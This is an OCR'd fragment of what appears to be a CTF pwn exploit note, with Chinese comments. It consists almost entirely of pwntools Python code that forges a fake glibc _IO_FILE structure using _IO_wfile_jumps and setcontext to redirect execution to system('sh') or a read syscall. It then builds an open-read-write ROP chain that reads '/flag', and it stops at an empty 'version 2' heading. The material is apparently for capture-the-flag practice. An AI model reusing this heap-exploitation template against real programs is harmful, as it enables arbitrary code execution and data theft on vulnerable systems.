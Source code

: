 ```python
libc = elf.libc
libc.address = libc_base
libc_rop = ROP(libc)

setcontext = libc.sym['setcontext']
_IO_wfile_jumps = libc.sym['_IO_wfile_jumps']
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

fake_IO_addr = heap_addr + 160 # 指向 chunk fd # 如果是 lager bin attack 可以指向 prve_size  然后  标记1可以 * 2
rsp =  fake_IO_addr
fake_IO_FILE  = b' sh\x00\x00\x00\x00\x00' + p64(0) * 3 # 可以调整这里  标记1
#fake_IO_FILE += p64(setcontext + 61)
fake_IO_FILE += p64(libc.sym['system'])
fake_IO_FILE += p64(0) * 10
fake_IO_FILE += p64(0)              # rdi
fake_IO_FILE += p64(fake_IO_addr)   # rsi
fake_IO_FILE += p64(fake_IO_addr+0x100)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(0x300)          # rdx
fake_IO_FILE += p64(fake_IO_addr+0x10)
fake_IO_FILE += p64(0)
fake_IO_FILE += p64(rsp)
fake_IO_FILE += p64(syscall)          # syscall SYS_read(0,fake_IO_addr,0x300)
fake_IO_FILE += p64(0) * 3
fake_IO_FILE += p64(_IO_wfile_jumps + 0x20-0x40)
fake_IO_FILE += p64(0) * 2
fake_IO_FILE += p64(fake_IO_addr-0x68+0x20)
```

‍

‍

#### ORW_ROP

- 然后再传入我们的ROP

‍

```python
pause()

########### version 1
## ORW_ROP
libc_rop = ROP(libc)
rax = libc_rop.find_gadget(['pop rax','ret'])[0]
rdi = libc_rop.find_gadget(['pop rdi','ret'])[0]
rsi = libc_rop.find_gadget(['pop rsi','ret'])[0]
rdx = libc_rop.find_gadget(['pop rdx','ret'])[0]
#rdx = libc_rop.find_gadget(['pop rdx','pop rbx','ret'])[0]
syscall = libc_rop.find_gadget(['syscall','ret'])[0]

orw_rop_addr = fake_IO_addr

orw_rop  = p64(rax) + p64(2) + p64(rdi) + p64(orw_rop_addr+0xb8) + p64(rsi) + p64(0) + p64(rdx) + p64(0) + p64(syscall)
orw_rop += p64(rdi) + p64(3) + p64(rsi) + p64(orw_rop_addr+0xb8) + p64(rdx) + p64(0x100) + p64(libc.sym['read'])
orw_rop += p64(rdi) + p64(1) + p64(rsi) + p64(orw_rop_addr+0xb8) + p64(rdx) + p64(0x100) + p64(libc.sym['write'])
orw_rop += b'/flag'.ljust(0x10,b'\x00')
sl(orw_rop)


########### version 2
```